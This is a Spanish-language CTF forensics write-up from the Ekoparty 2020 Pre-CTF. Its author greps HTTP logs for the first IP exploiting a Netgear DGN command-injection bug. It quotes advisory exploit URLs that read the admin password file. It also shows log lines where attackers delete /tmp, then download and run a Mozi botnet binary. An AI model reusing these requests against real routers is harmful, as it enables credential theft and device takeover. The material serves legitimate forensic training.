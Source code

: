 Logs
====

Challenge

> Could you find the first IP address that tried to exploit the vulnerability discovered by Roberto Paleari?
>
> FLAG format: EKO{IP}
>
> Attachment
> [Logs](https://github.com/estebancano-dev/CTF-Writeups/blob/master/20200626%20Ekoparty%20Pre-CTF/Files/Logs?raw=true)

Category: Forensics

Inicio clásico...

    $ file logs.gz
    Logs: gzip compressed data, was "logs", last modified: Fri Aug 14 15:54:55 2020, from Unix, original size 648140
    $ mv Logs logs.gz
    $ gunzip logs.gz

Es un archivo de Logs HTTP con un montón de IPs

    $ cat logs | cut -f1 -d' ' | sort | uniq -c | sort -n > ips.txt
    $ wc -l ips.txt
    374 ips.txt (distintas)
    $ head -3 ips.txt
        1 100.35.135.237
        1 101.95.184.210
        1 102.165.30.21
    $ tail -3 ips.txt
        280 44.225.84.206
        936 223.100.160.5
        954 203.160.55.115
    $

El Sr. Roberto Paleari ([@rpaleari](https://twitter.com/rpaleari))
ha descubierto un montón de vulns. Hay de iOS creo, y de SNMP, pero de snmp
no parecerían ser, pues el log es de webserver.

Mi novia encontró que había descubierto también vulnerabilidades en
equipos de Netgear (dispositivos de red), así que vamos por esas ...

- 29/03/2013 Authentication bypass on Netgear WNR1000 ()  
  <https://www.exploit-db.com/exploits/24916>

> Strictly speaking, the web server skips authentication checks for some URLs,
> such as those that contain the substring ".jpg" (without quotes). As a
> consequence, an attacker can retrieve the current device configuration by
> accessing the following URL:
>
> `http://<target-ip-address>/NETGEAR_fwpt.cfg?.jpg`
>
> The resulting configuration file is encrypted. However the device implements a
> trivial encryption scheme, that can be reversed quite easily.  From the
> configuration file, attackers can extract, among the other things, the
> clear-text password for the "admin" user.

Así que ".jpg", eh?

    $ grep -i netgear logs | fgrep -i ".jpg"
    $

(nope, ninguna)

Busquemos otra...

- Netgear DGN1000 / DGN2200 - Multiple Vulnerabilities  
  31/05/2013 Unauthenticated command execution on Netgear DGN devices ()  
  <https://www.exploit-db.com/exploits/25978>

> Briefly, the embedded web server skips authentication checks for some URLs
> containing the "currentsetting.htm" substring. As an example, the following URL
> can be accessed even by unauthenticated attackers:
>
> `http://<target-ip-address>/setup.cgi?currentsetting.htm=1`
>
> Then, the "setup.cgi" page can be abused to execute arbitrary commands. As an
> example, to read the /www/.htpasswd local file (containing the clear-text
> password for the "admin" user), an attacker can access the following URL:
>
> `http://<target-ip-address>/setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=cat+/www/.htpasswd&curpath=/&currentsetting.htm=1`
>
> Basically this URL leverages the "syscmd" function of the "setup.cgi" script to
> execute arbitrary commands. In the example above the command being executed is
> "cat /www/.htpasswd", and the output is displayed in the resulting web
> page. Slightly variations of this URL can be used to execute arbitrary
> commands.

Entonces...

    $ grep -i netgear logs | fgrep -i "current" --color
    207.136.9.198 - - [02/Aug/2020:15:38:47 -0300] "GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=busybox&curpath=/&currentsetting.htm=1 HTTP/1.1" 400 0 "-" "Mozilla/5.0"
    114.227.134.250 - - [08/Aug/2020:16:13:10 -0300] "GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0" 404 451 "-" "-"
    223.149.48.170 - - [12/Aug/2020:22:22:10 -0300] "GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0" 404 451 "-" "-"
    $

Bueno, estas sí tienen buena pinta.
Nos quedamos con la primera IP: `207.136.9.198`

El formato de la flag es EKO{IP}

Flag

    EKO{207.136.9.198}

-- [maurom](https://maurom.com/)

---

Otras posibles alternativas (no probadas)

- https://packetstormsecurity.com/files/author/8921/
- https://www.huawei.com/nl/psirt/security-advisories/2015/hw-260601
- https://www.huawei.com/nl/psirt/security-advisories/2015/hw-260626
- Paper: https://link.springer.com/chapter/10.1007/978-3-540-70542-0_7 (leer!)
